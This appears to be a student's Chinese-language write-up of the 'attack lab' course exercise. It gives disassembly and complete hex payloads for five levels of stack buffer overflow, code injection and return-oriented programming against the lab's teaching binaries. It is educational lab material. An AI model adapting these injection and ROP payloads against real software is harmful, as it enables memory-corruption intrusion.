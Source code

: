 attack lab
### 和实验内容相关的指令 ###
1.sudo gcc -c asm.s(asm.s中存放汇编代码)
2.objdump -d + 文件名(可以查看上一步中生成的机器码，或者查看题目文件的汇编代码)
3.cat cookie.txt | ./hex2raw | ./rtarget(用于确认答案)

### 1.level1 ###
要求:getbuf返回到touch1
先反汇编getbug，如下
```python
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```
这不就是"a"* 0x28+ad_touch1,touch1地址为0x4017c0
payload如下
```python
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 c0 17 40 00 00 00 00 00
```

### 2.level2 ###
要求:ret touch2时，touch2的参数需要为cookie(一开始以为栈的地址是随机的，没想到是固定的，而且可写可读)
rsp_ad=0x5561dc78,cookie=0x59b997fa，touch2_ad=0x4017ec
mov %0x59b997fa,%rdi的机器码为bf fa 97 b9 59，ret的机器码为c3
payload如下
```python
BF FA 97 B9 59 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 EC 17 40 00 00 00 00 00
```
一开始mov $0x59b997f，%rdi,没加$，导致反汇编的机器码一直是错的......

### 3.level3 ###
要求:ret touch3时，touch3的参数需要指向cookie
cookie=0x59b997fa,ad->cookie=0x5561dc7e,touch3=0x4018fa
payload
```python
bf b0 dc 61 55 c3 fa 97 b9 59 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 dc 61 55 00 00 00 00 fa 18 40 00 00 00 00 00 35 39 62 39
39 37 66 61 00 00 00 00
```
没看懂这个题目的要求，我以为那个cookie为0x59b997fa，16进制填fa 97...就可以了，结果是每一位都要用ascii的形式表达
，然后注意字符串的位置要在ret 后面

### 4.level4 ###
要求:实现level2通过他给的gadgets
rtarget用objdump反汇编出来看不到gadgets就离谱，于是我默默的输入了ROPgadget，
pop_rdi=0x40141b,cookie=0x59b997fa,touch2_ad=0x4017ec
payload
```python
BF 7E DC 61 55 C3 35 39 62 39 39 37 66 61 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 1B 14 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 EC 17 40 00 00 00 00 00
```

### 5.level5 ###
要求:实现level3，栈地址开了随机化，这就有点东西了，
gets_ad=0x401b60,ad=0x00605000，touch3_ad=0x4018fa
pop_rdi=0x000000000040141b,pop_rsi=0x0000000000401383，
思路:还是和level3一样，问题是怎么得到栈的地址,我一开始想的是通过mov rsp,rdi；但是我反汇编出来的没有mov rsp,rdi或者其他可以利用传rsp的就很离谱(通过read将字符串读到可写段上应该也可以，只是，由于hex2raw的问题，不好控制输入)
payload(参考https://blog.csdn.net/weixin_41256413/article/details/80463280)
```python
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 1a 40 00 00 00 00 00 c5 19 40 00 00 00 00 00 ab 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 dd 19 40 00 00 00 00 00 34 1a 40 00 00 00 00 00 13 1a 40 00 00 00 00 00 d6 19 40 00 00 00 00 00 c5 19 40 00 00 00 00 00 fa 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00
```
